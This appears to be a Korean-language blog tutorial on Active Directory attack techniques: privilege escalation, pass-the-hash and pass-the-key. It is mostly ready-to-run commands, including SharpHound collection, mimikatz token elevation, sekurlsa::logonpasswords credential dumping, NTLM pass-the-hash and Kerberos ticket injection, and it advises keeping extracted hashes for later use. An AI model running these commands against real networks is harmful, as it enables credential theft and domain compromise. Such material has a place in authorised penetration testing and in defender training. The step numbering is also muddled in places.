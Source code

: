 <div class="content-ad"></div>

# 핵심 펜테스팅 기법에 대한 단계별 안내서

# 특권 자격 증명/세션을 이용한 Active Directory 권한 상승

- BloodHound와 같은 도구를 사용하여 취약 경로를 식별합니다.

```js
SharpHound.exe -c All
```

<div class="content-ad"></div>

2. 토큰 위조 또는 서비스 남용과 같은 기술을 사용하여 경로를 악용합니다.

```js
mimikatz.exe "privilege::debug" "token::elevate" "exit"
```

3. 제한된 리소스에 액세스하려고 시도하여 액세스를 확인합니다.

```js
dir \\<target_ip>\c$
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

<div class="content-ad"></div>

3. 해시를 추출하려면 sekurlsa::logonpasswords 명령을 실행하세요.

- 추출된 해시를 안전하게 저장하여 나중에 사용하세요.

# 패스 더 해시

- 대상 계정의 NTLM 해시를 획득하세요.
- 해당 해시를 Mimikatz나 Pass-the-Hash Toolkit과 같은 도구와 함께 사용하여 평문 암호 없이 인증하세요.

<div class="content-ad"></div>

mimikatz.exe "privilege::debug" "sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:cmd.exe" "exit"

# 해시/키 전달하기

- Mimikatz와 같은 도구를 사용하여 Kerberos 키를 추출합니다.

mimikatz.exe "privilege::debug" "sekurlsa::ekeys" "exit"

<div class="content-ad"></div>

2. 키를 사용하여 Kerberos 티켓을 요청하고 인증하세요.

```js
mimikatz.exe "kerberos::ptt <ticket.kirbi>"
```
